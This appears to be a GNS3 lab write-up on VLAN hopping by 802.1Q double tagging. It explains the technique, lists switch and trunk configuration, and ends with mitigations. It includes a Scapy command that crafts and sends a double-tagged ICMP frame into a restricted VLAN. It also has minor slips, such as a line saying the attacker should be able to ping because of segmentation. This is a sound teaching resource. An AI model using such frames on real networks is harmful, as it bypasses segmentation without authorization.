 # VLAN Hopping: Double Tagging
Double-tagging is a Layer 2 network attack technique that exploits the behavior of 802.1Q trunk ports and native VLAN handling on switches. In this attack, a threat actor crafts Ethernet frames with two VLAN tags: an outer tag that matches the native VLAN (commonly VLAN 1) and an inner tag for the target VLAN they wish to access. When the packet is sent from an access port belonging to the native VLAN, the first switch removes the outer tag and forwards the frame onto the trunk. The second switch, upon receiving the now-single-tagged frame, interprets the remaining inner tag and forwards it to the corresponding VLAN. This allows the attacker to send traffic into VLANs they shouldn't have access to, even though their physical port is not assigned to that VLAN. Double-tagging is difficult to detect because return traffic typically can't follow the same path back, making it a one-way attack, useful primarily for injecting packets into restricted VLANs.

## Lab Topology

![](assets/double-tagging-topo.png)

## Setup

### Switch Port Layout
| Switch   | Port    | Connected Device | VLAN    | Port Mode             |
|----------|---------|------------------|---------|-----------------------|
| SWITCH1  | Et0/0   | SWITCH2          | N/A     | Trunk (native VLAN 1) |
| SWITCH1  | Et0/1   | CAMERA_01        | VLAN 20 | Access                |
| SWITCH1  | Et0/2   | ATTACKER         | VLAN 1  | Access                |
| SWITCH2  | Et0/0   | SWITCH1          | N/A     | Trunk (native VLAN 1) |
| SWITCH2  | Et0/1   | CENTRAL_SERVER   | VLAN 20 | Access                |

### VPCS Static IPv4 Configuration

For simplicity's sake, both CAMERA_01 and CENTRAL_SERVER are [VPCS](https://docs.gns3.com/docs/emulators/vpcs/) (virtual PC simulator) appliances. The following command will set an IP address and save the configuration if the device reboots.
<pre>
  VPCS> ip 192.168.0.x/24
  VPCS> save
</pre>

### Docker Container IPv4 Configuration

The ATTACKER machine is a Docker container. The imaged used in this lab is [finchsec/scapy](https://hub.docker.com/r/finchsec/scapy), which gives access to the Scapy program for crafting custom network packets to perform this attack. Configuring IP addresses for Docker appliances in GNS3 is easy as shown below:

R-Click -> Edit config

![](assets/attacker-interfaces.png)

### Verify

CAMERA_01 should now be able to ping CENTRAL_SERVER

![](assets/camera-server-ping.gif)


ATTACKER should be able to ping CAMERA_01 or CENTRAL_SERVER due to network segmentation

![](assets/attacker-ping.gif)

Craft a double-tagged ICMP packet with Scapy

<pre>
  >>> packet = Ether(dst='ff:ff:ff:ff:ff:ff')/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.0.250')/ICMP()
  >>> sendp(packet, iface="eth0")
  .
  Sent 1 packets.
</pre>

Create new vlan
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# vlan 20
  SWITCH1(config-vlan)# name BLUE
  SWITCH1(config-vlan)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/1, Et0/2, Et0/3
                                                  Et1/0, Et1/1, Et1/2, Et1/3
                                                  Et2/0, Et2/1, Et2/2, Et2/3
                                                  Et3/0, Et3/1, Et3/2, Et3/3
  20   BLUE                             active
</pre>

Assign vlan to switchport Et0/1 (CAMERA_01)
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/1
  SWITCH1(config-if)# switchport mode access
  SWITCH1(config-if)# switchport access vlan 20
  SWITCH1(config-if)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/2, Et0/3, Et1/0
                                                  Et1/1, Et1/2, Et1/3, Et2/0
                                                  Et2/1, Et2/2, Et2/3, Et3/0
                                                  Et3/1, Et3/2, Et3/3
  20   BLUE                             active    Et0/1
</pre>

Configure Et0/0 as static trunk port
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/0
  SWITCH1(config-if)# switchport trunk encapsulation dot1q
  SWITCH1(config-if)# switchport mode trunk
  SWITCH1(config-if)# switchport trunk allowed vlan 20
  SWITCH1(config-if)# exit
  SWITCH1# show interfaces trunk
  
  Port           Mode             Encapsulation  Status        Native vlan
  Et0/0          on               802.1q         trunking      1

  Port           Vlans allowed on trunk
  Et0/0          20

  Port           Vlans allowed and active in management domain
  Et0/0          20

  Port           Vlans in spanning tree forwarding state and not pruned
  Et0/0          20
</pre>

Repeat these step on SWITCH2


## Mitigations
You can prevent double-tagging attacks by:
- Setting the native VLAN to an unused VLAN
- Forcing all trunks to tag all traffic (i.e., vlan dot1q tag native)
- Avoiding VLAN 1 for any user-access ports
